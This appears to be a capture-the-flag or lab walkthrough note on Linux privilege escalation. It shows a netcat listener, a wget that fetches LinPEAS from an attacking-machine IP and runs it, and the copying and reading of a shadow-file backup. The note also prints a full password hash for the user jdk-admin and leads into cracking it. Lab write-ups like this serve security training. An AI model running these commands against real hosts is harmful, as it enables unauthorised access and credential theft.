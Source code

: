 LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation).

#Attacking_machine 
1. Create a `linpeas.sh` file with content of [https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh).
2. Open a netcat listener.
```
nc -lnvp 443
```
1. Run pytho webserver in the same directory you saved `linpeas.sh`.
```
python3 -m http.server 80
```

#Remote_shell

5. Go to `/tmp`.
6. Get the `linpeas.sh` file and make the file executable.
```
wget http://<AATACKING MACHINE IP>/linpeas.sh
chmod +x linpeas.sh
```

6. Run linpeas.
```
./linpeas.sh | tee output
```

The most interesting thing you'll find is: `shadow-backup-alt.gz` file.

![[Screenshot_2025-10-17_05-13-22.png]]


## Shadow-backup-alt file

#Remote_shell 
1. Copy `shadow-backup`-alt .gz to `/tmp`.
```
cp /var/backups/shadow-backup-alt.gz .
```

2. Extract the files from the file.
```
gunzip shadow-backup-alt.gz
```

You'll get a file called `shadow-backup-alt`.

3. Look at the file's contents.
```
cat shadow-backup-alt
```

At the end of the file there's this line:

`jdk-admin:$6$PQQxGZw5$fSSXp2EcFX0RNNOcu6uakkFjKDDWGw1H35uvQzaH44.I/5cwM0KsRpwIp8OcsOeQcmXJeJAk7SnwY6wV8A0z/1:18643:0:99999:7:::`

It's the jdk-admin's hash.

**Next step:** [[Cracking jdk-admin's hash]]
